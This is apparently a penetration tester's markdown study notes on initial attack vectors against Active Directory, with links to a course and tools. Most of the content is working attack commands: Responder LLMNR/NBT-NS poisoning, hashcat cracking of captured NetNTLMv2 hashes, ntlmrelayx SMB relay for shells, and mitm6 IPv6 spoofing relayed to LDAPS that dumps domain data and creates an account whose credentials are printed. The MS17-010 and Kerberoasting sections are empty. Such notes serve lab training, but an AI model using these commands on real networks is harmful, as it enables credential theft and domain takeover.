


**1 Netbios && LLMNR Name Poisoning**
**2 Relay Attacks**
**3 MITM6**
**4 MS17-010**
**5 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::\ 

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay::

- a) Find machines w/ smb enabled: Nessus or Nmap:

`/opt/impacket/examples/$ python3 ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::\ 
  &&  
- shells W/ creds:: 
- ***wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy***

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) `
b. `/opt/impacket-0.9.19/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme`
c. `xdg-open /opt/impacket-0.9.19/examples/lootme/domain_users_by_group.html`

This Process also creates a user::

)

Created user via DC::

  `UN:PW:: FRjPVCfXyd:#xiRqvp5i6k2-gG #DC` && `file:: aclpwn-20211220-125747.restore #attack machine`

**How to mitigate this attack:**

 [^1]
[^1] `https://academy.tcm-sec.com/courses/1152300/lectures/24780877`

---

**4. MS17-010:**
TODO:

---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)
[NTLM Relay W/ Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

### Attacking Active Directory: Initial Attack Vectors
